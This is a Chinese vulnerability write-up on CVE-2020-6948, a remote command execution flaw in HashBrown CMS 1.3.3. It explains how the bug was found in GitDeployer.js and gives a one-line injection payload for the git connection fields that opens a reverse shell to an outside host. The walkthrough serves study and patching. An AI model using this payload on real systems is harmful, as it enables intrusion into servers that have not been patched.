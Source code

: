 （CVE-2020-6948）HashBrown CMS 远程命令执行漏洞
===============================================

一、漏洞简介
------------

HashBrown CMS是一套开源的无头内容管理系统（CMS）。 HashBrown CMS
1.3.3及之前版本中存在远程代码执行漏洞，该漏洞源于程序没有进行正确的安全检查。攻击者可利用该漏洞执行代码。

二、漏洞影响
------------

HashBrown CMS 1.3.3

三、复现过程
------------

在之前收集的资料里面总结了发现漏洞基本有三个方法：

-   通过关键字搜索，比如exec方法在很多语言里面代表执行系统命令，那你就可以搜索查看传入exec方法的参数有没有经过过滤，有没有办法利用。<https://github.com/wireghoul/graudit>
    这个项目就罗列了很多语言的关键词可以用作参考。

-   根据function来阅读代码，但是这种方法花费的时间比第一种多，有可能迷失在各种各种各样的方法中。

-   通读代码，这样最全，但是显然速度要慢很多了。

对于Hashbrown
CMS，先用第一种方法开路。尝试了几个关键字之后我选取了exec这个关键字。在grep
之后发现了下面的结果。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId25.png)

看来这个应用使用git 相关命令，如果可以传入url
参数就有可能触发命令执行漏洞。接着打开Server/Entity/Deployer/GitDeployer.js
文件查看源代码。

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId26.png)

其中可以看到url由username，password，和repro
几个变量拼接，而且其中没有过滤特殊的字符和命令。那接下来就是到页面里面寻找触发的点。经过对这个应用的一番熟悉，得知可以在登录后建立新的connection选择git部署的方式，在Repository，Branch，username或者password字段填写你要执行的命令即可。但是这里要注意程序本来的exec命令中填写有单引号，我们要对其进行闭合，比如填入如下命令来反弹一个shell。

    https://google.com' & /bin/bash -c 'bash -i >& /dev/tcp/192.168.119.149/8888 0>&1

配置如下：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId27.png)

然后点击media菜单触发git命令执行

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId28.png)

接下来在监听的机器上就可以获得shell了

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-6948)HashBrownCMS远程命令执行漏洞/media/rId29.png)

参考链接
--------

> <https://mp.weixin.qq.com/s?__biz=MjM5MDYxODkyMA==&mid=2651345793&idx=1&sn=02381bb3dbd4679b12be4628d665e815&chksm=bdbef7c68ac97ed063e8df46a42e2a111dfd52f108f6b267f8dfc183b6b0ed3f87b6af757487&mpshare=1&scene=1&srcid=&sharer_sharetime=1582514363054&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=019d47c25aa835ac2d58a398c473737e01644761ca991f7009ada9eb1ef69e4dd41b2008c27db720006e0858455f920d0801d9feae53aa4314f05d6e310a7290ae2b93e17343c13f6a9f2ce360254195&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AZc%2BxZJwp8CueCtaKThWQrI%3D&pass_ticket=l4uNHDrGwGqrS%2BmJVv56i4FzemghweUeBbN1BEETCGd3TqEDSTcwvRMSxogubM8j>
